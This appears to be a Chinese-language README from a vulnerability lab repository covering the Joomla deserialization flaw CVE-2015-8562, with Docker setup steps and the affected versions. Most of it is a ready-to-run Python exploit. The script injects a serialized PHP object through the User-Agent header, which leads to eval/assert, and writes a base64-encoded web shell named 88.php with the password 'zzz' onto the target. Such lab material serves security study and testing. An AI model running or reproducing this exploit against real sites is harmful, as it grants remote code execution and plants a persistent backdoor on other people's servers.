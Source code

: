 ## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 漏洞介绍
joomla的反序列漏洞，该漏洞影响的版本特别多（从1.5版本到3.4版本），漏洞编号CVE-2015-8562

## 影响版本
影响版本

Joomla 1.5.x, 2.x, and 3.x before 3.4.6
PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

getshell payload

```
#coding=utf-8


import requests
import re
import sys
def get_url(url, user_agent):

    headers = {
    'User-Agent': user_agent
    }
    cookies = requests.get(url,headers=headers).cookies
    for _ in range(3):
        response = requests.get(url, headers=headers,cookies=cookies)
    return response.content

def php_str_noquotes(data):
    "Convert string to chr(xx).chr(xx) for use in php"
    encoded = ""
    for char in data:
        encoded += "chr({0}).".format(ord(char))

    return encoded[:-1]


def generate_payload(php_payload):

    php_payload = "eval({0})".format(php_str_noquotes(php_payload))

    terminate = '\xf0\xfd\xfd\xfd';
    exploit_template = r'''}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";'''
    injected_payload = "{};JFactory::getConfig();exit".format(php_payload)
    exploit_template += r'''s:{0}:"{1}"'''.format(str(len(injected_payload)), injected_payload)
    exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}''' + terminate

    return exploit_template

def check(url):
    response = requests.get(url)
    return response.content


turl = sys.argv[1]
syscmd = "file_put_contents(dirname($_SERVER['SCRIPT_FILENAME']).'/88.php',base64_decode('dnZ2PD9waHAgZXZhbCgkX1BPU1Rbenp6XSk7Pz4='));"
pl = generate_payload(syscmd)
get_url(turl, pl)
url = turl+'88.php'
if 'vvv' in check(url):
    print u"成功shell为"+turl+u"88.php，密码为zzz"
else:
    print u"失败！漏洞已修补或版本不同！"

```
![](luffy1.png)
## 漏洞连接
[链接一](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)

